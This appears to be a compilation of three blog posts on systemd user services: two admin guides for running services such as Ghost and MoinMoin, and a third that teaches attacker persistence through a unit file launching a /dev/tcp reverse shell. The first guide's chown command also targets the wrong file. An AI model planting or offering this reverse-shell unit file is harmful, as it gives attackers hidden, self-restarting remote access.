 # [`systemd` user services are amazing ](https://www.brendanlong.com/systemd-user-services-are-amazing.html) 



In the last few days, I've needed to set up several long-running services  and I just wanted to take a minute to talk about how helpful systemd's  user services have been.

The things I wanted to run are:

- A Node.js server which is started with `npm run`
- A Node.js client (for testing)
- [MoinMoin](https://moinmo.in/) (a wiki written in Python)
- [Ghost](https://ghost.org/) (blog software for Node.js)
- [SyncThing](https://syncthing.net/) (file sync like DropBox)

For the first one, I figured systemd would be useful, and I figured I might as well try running in user mode. The server isn't particularly stable, so systemd's automatic-restarting is helpful, and the sandboxing is  also nice to have.

Once I had the config file, I realized that  it's trivial to adapt it to any other long-running process. I also found another advantage: Since these run in user-mode, it's trivial to create a user for each service, do whatever I need to in their home directory, and then lock things down. I can log in as those users and run updates, and the only thing I need root access for is to give them permission to run services when not logged in ("lingering").

### [Users](https://www.brendanlong.com/systemd-user-services-are-amazing.html#users)

Creating single-use users is easy:

```
sudo adduser moin
```

To be able to ssh in as that user using the same keys as the current user:

```
sudo -u moin mkdir ~moin/.ssh
sudo cp ~/.ssh/authorized_keys ~moin/.ssh/authorized_keys
sudo chown moin:moin ~/.ssh/authorized_keys
```

If multiple people need access, you might want to generate the `authorized_keys` file from their public keys rather than just copying your own.

### [Unit files](https://www.brendanlong.com/systemd-user-services-are-amazing.html#unit-files)

Here's what my Ghost config looks like (in `~/.config/systemd/user/ghost.service`):

```
[Unit]
AssertPathExists=/home/ghost/ghost

[Service]
WorkingDirectory=/home/ghost/ghost
Environment=GHOST_NODE_VERSION_CHECK=false
ExecStart=/usr/bin/npm start --production
Restart=always
PrivateTmp=true
NoNewPrivileges=true

[Install]
WantedBy=default.target
```

The nice bits are that if it crashes, it will restart, it has its own `/tmp`, and even if it was hacked, it can't gain root priviledges (although, I'm not sure if these options work right in user mode).

With barely any changes, it works for MoinMoin too:

```
[Unit]
AssertPathExists=/home/moin/moin

[Service]
WorkingDirectory=/home/moin/moin
ExecStart=/usr/bin/python2 /home/moin/moin/wikiserver.py
Restart=always
PrivateTmp=true
NoNewPrivileges=true

[Install]
WantedBy=default.target
```

For my custom Node.js server, I could even have systemd provide the socket and then lock things down even more.

### [Auto-start and lingering](https://www.brendanlong.com/systemd-user-services-are-amazing.html#auto-start-and-lingering)

As root, give the user permission to run services when they're not logged in:

```
sudo loginctl enable-linger moin
```

Now log in as the user who will run this server. You must use a real login, like connecting over SSH. `sudo -s -u` won't give you the right environment.

```
ssh moin@yourserver.com
systemctl --user enable moin
```

[The end](https://www.brendanlong.com/systemd-user-services-are-amazing.html#the-end)

I just want to share how easy it was to do this, since separating  services to each be run by a different user is good for security, and  apparently it's super easy these days. 



## [Creating a Simple `Systemd` User Service](https://blog.victormendonca.com/2018/05/14/creating-a-simple-systemd-user-service/)

Quick instructions on how to create a simple `systemd` user service for a program or script.

1. Identify the script or program/binary that you will be using.
2. Create a `systemd` unit file using the example below, give it a name that will make sense to you with a `.service` extension (like `[my_service].service`), and save it to `$USER/.config/systemd/user`

```
[Unit]
Description=[Service description]

[Service]
Type=simple
StandardOutput=journal
ExecStart=[script path]

[Install]
WantedBy=default.target
```

For this example we used a service type simple, which allows `systemd`  to take care of the most basic needs for us. The options used are:

- `Description` = Description of your service. This will be shown when handling your service with `systemctl`
- `Type` = We will be using the simple type, and this could be left out
- `StandardOutput` = We will be logging it to the system log (you can use `journalctl` to view it)
- `ExectStart` = The script or program to be executed
- `WantedBy` = Service will be run using the default target. You can find what the `default.target` is with `systemctl get-default`

3. Enable your service so it starts automatically

```
systemctl --user enable [my_service].service
```

4. Start the service

```
systemctl --user start [my_service].service
```

5. Check that it’s running

```
systemctl --user status [my_service].service
```

## [Systemd user level persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)

There are multiple ways to keep persistence on a Linux system after getting  initial foothold. If you have root access, there is literally infinite  number of ways to do so: you can **backdoor** any part of a system. However, sometimes you do not have root access and you do not really need it,  but it is always nice to keep an access to the system after it reboots.

Here I will show one way of achieving persistence on most modern Linux  systems without having root access. For some reason this method does not seem to be getting enough attention.

It is stupidly simple: **use `systemd` user service.**

### Example

1. Place a service file in `~/.config/systemd/user/`.

   Here is a `rs.service` file used for a demo:

```
[Unit]
Description=Just a reverse shell[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

2. Enable the service with `systemctl --user enable rs.service`

That is it. On the next user login systemd will happily start a reverse shell.

You can start it right away with `systemctl --user start rs.service` if you don’t want to wait for a next time system reboots.

The nice thing is that you can use most systemd features here. In the example above, I used `Restart` to restart a shell automatically on a failure. You may want to use  systemd timers to run your payload periodically and not have a process  constantly running if that is what you want.

### Limitations

By default, `systemd --user` is only started when a user logs in and a session is started. So, this  persistence method is mostly suited for desktops or kiosks and would be  useless for servers with no active user sessions.

It is possible to change this behavior and start `systemd --user` on boot rather than on user login. To do so, a root must run `loginctl enable-linger `. Obviously, we have no root access and cannot change these settings. But it is worth checking if it has already been enabled. In order to do so, look in `/var/lib/systemd/linger` directory. If lingering is enabled for a user `username`, there should be an empty file with a name `username`. (Per [this](https://serverfault.com/a/849280) amazing answer)

